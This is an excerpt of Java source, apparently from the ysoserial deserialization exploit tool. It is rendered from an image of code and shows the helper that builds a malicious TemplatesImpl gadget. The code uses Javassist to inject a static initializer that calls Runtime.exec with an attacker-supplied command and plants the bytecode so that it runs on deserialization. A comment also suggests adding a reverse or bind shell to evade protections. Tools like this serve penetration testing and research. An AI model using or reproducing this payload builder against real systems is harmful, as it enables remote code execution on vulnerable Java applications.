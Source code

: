 ```java
        if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
            return createTemplatesImpl(
                    command,
                    Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
                    Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
                    Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
        }

        return createTemplatesImpl(command, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
    }


    public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
            throws Exception {
        final T templates = tplClass.newInstance();

        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(Utils.StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(Utils.StubTransletPayload.class.getName());
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
       String cmd = "System.out.println(\"whoops!\"); java.lang.Runtime.getRuntime().exec(\"" +
                command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
                "\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);

        final byte[] classBytes = clazz.toBytecode();

        // inject class bytes into instance
        Utils.setFieldValue(templates, "_bytecodes", new byte[][] {
                classBytes, Utils.classAsBytes(Utils.Foo.class)
        });

        // required to make TemplatesImpl happy
        Utils.setFieldValue(templates, "_name", "Pwnr");
        Utils.setFieldValue(templates, "_tfactory", transFactory.newInstance());
        return templates;
    }

    public static void setAccessible(AccessibleObject member) {
        // quiet runtime warnings from JDK9+
        Permit.setAccessible(member);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            setAccessible(field);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
```